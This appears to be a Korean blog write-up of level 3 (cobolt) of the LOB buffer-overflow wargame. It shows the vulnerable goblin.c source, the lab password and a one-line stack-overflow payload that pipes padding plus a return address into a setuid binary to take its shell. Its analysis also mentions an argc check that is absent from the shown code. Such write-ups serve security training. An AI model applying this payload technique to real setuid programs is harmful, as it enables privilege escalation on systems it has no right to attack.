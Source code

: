 ```yaml
---
title: BOF/ LOB-level3(cobolt)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 3(cobolt)
**ID : cobolt**  
**PASSWD : hacking exposed**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level3/1.PNG)  
사용자 goblin의 권한의 goblin파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 goblin의 권한으로 파일을 실행할 수 있다.**  
**goblin파일이 쉘을 실행시키도록 한다면 사용자 goblin의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
{% endhighlight %}  

**goblin.c**

### 소스분석  
1. buffer의 크기가 16Byte이다.  
[LOB(level2)](https://limjunho.github.io/2019/11/03/LOB-level2(gremlin).html)**와 매우 유사하나 프로그램 실행 시 인자를 전달받는것이 아닌 실행 중에 인자를 전달 받는다.**  
2. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
3. buffer에 gets로 값을 입력받아 출력하는 소스  
**gets함수는 입력받을 데이터의 크기제한이 없기 때문에 입력받은 값이 16Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**[LOB(level2)](https://limjunho.github.io/2019/11/03/LOB-level2(gremlin).html)와 같은방식으로 문제풀이 단, 다른 방식으로 값 전달**  


### Attack   

![그림2](/assets/LOB/level3/2.PNG)  
공격 성공.   
**python으로 값을 출력한 다음, 표준 입력을 표준 출력으로 바꿔주는 역할을 하는 cat명령어로 값을 넘겨주도록 한다.**  
**세미콜론은 한줄에 명령어를 여러개 입력할때 사용한다는 점에서 파이프와 비슷하지만 파이프의 경우 앞에서 나온 결과값을 뒤의 명령에서 사용한다는 점이 대조된다.**  
**그리고 나서 앞의 결과를 파이프가 goblin에게 넘겨준다.**  

**페이로드**
```bash
$ (python -c "print 'A'*20  + '\xc1\xfe\xff\xbf'"; cat) | ./goblin
```